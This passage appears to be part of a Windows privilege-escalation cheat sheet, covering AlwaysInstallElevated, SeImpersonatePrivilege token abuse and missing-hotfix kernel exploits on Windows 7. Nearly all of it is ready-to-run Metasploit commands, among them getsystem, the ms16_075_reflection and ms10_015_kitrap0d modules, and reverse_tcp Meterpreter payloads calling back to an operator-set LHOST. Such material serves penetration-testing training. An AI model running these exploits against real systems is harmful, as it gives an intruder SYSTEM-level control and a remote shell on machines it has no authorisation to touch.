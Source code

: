 **Exploit**

```text
use exploit/windows/local/always_install_elevated
set SESSION <id>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

---

### B.4 Token Privileges (SeImpersonatePrivilege)

**Detect**

```cmd
whoami /priv
```

**Exploit (Meterpreter built‑in / alternatives)**

```text
# Meterpreter: try multiple techniques
getsystem
# Or module leveraging token tricks (varies by target):
use exploit/windows/local/ms16_075_reflection
set SESSION <id>
exploit
```

---

### B.5 Missing Hotfix / Kernel Privesc (Win7)

**Detect**

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe get HotFixID,InstalledOn
```

**Suggest & Exploit**

```text
# Let Metasploit suggest viable locals from the session context
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run

# Example older Win7 locals (choose per suggester output):
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <id>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

---